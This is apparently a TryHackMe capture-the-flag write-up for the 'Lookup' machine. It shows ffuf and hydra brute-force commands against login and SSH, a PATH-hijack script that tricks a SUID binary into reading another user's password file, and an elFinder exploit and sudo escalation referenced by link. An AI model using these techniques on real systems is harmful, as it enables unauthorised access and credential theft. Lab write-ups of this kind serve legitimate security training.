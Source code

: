 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, SUID, GTFObins, Look]
---
```



![lookup](https://c00lrabbit.github.io/assets/Images/Lookup/lookup.png)

## Nmap Result

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```bash
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

![Login](https://c00lrabbit.github.io/assets/Images/Lookup/Login-page.png)

- I tried injection attacks, Intercepted the traffic and Analyzed but no use.

#### Using ffuf we can try bruteforcing the login

```bash
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
```
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/ffuf-password.png)

But this password doesn't login so i enumerated the username

```bash
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```

![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/ffuf-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- We found a Exploit from Exploit-DB https://www.exploit-db.com/exploits/46481

![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)

- After running linpeas we found a SUID
![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)

- Running pwm binary

![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)

## Analysing the binary
- When we run this binary it executes `id` command and from the result it search for a .password file under the user.

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
### Breakdown of the above commands
- We are redirecting to `/tmp` because `/tmp` directory have mostly read and write access.
- Creating a shell script named 'id' we are echoing the commands into the file 'id'.
-  Adding Execution privilege to the script and exporting `/tmp` dir to PATH, Here comes the intresting part in linux when we are running a command or file it first check the location of the file form the PATHS list so here we are adding the `/tmp` which makes the `/usr/sbin/pwm` script to run our malicious 'id' script.
- Our script will output like the think user and we can read the /home/think/.passwords file Because the pwm script thinks we are 'think' user.

- After running the above line we get this password list

```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
....

```

- Using hydra we can bruteforce the login

```bash
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)

# Privilege Escalation

- Using the found credentials we can ssh into the machine.
```
ssh think@lookup.thm
```

- After running `sudo -l` we found that we have access to "look" with sudo.
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.

![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)

- We got the root

![root](https://c00lrabbit.github.io/assets/Images/Lookup/Root.png)


## Conclusion
- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
- Privilege escalation is Stright forward.
- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/O4O31I0TAI)